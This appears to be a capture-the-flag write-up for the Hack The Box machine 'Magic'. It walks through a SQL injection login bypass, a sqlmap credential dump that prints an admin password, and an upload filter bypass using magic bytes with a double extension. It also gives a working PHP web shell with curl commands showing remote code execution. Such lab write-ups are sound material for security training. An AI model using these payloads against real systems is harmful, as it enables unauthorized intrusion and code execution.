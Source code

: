 # 10 - HTTP

# index.php
![](vx_images/5525624050786.png)


Login page is linked on the bottom left corner. Let us hit the link and see what it looks like.

# login.php

![](vx_images/3473823315937.png)

I like to try default credentials first, like admin:password root:root before looking closely at the request.

# SQL injection
![](vx_images/770219947851.png)

302 response is given to us instead of password incorrect error. I think we just commented out the password line that's why we are redirected. Simply put, we are logged in through sql injection.

if the request is like:
```
select username, password from db where username = $username and password = $password;
```
what we have done is:
```
select username, password from db where username = admin -- - and password = admin;
```
`--` comments out the rest of the line so I believe only username is checked.

# SQLmap dump
![](vx_images/2670711999172.png)

I needed `--level 5 --risk 3` to get sqlmap working.

Credentials:

* admin: Th3s3usW4sK1ng

# upload.php
![](vx_images/489255199615.png)

Image upload only allows image extensions like jpg jpeg but the server treats anything ,that contains `.php` in the filename, as a php file. A  file named "exploit.php.jpg" is considered a php file rather than an image.


# Code execution
```bash
┌─[user@parrot]─[10.10.14.9]─[~/htb/magic]
└──╼ $ curl -s http://10.10.10.185/images/fulls/1.jpg   |head -c 4 > exploit.php.jpg # For magic bytes
┌─[user@parrot]─[10.10.14.9]─[~/htb/magic]
└──╼ $ echo '<?php system($_REQUEST["cmd"]);?>' >> exploit.php.jpg
┌─[user@parrot]─[10.10.14.9]─[~/htb/magic]
└──╼ $ curl http://10.10.10.185/images/uploads/exploit.php.jpg?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


The first command copies the first 4 magic bytes into our malicious file because the server complains if magic bytes are not in the file. The next command adds our php payload. The last command executes any value given to it in the server.

# Shell

![](vx_images/1211610673257.png)

A reverse shell is successfully connected.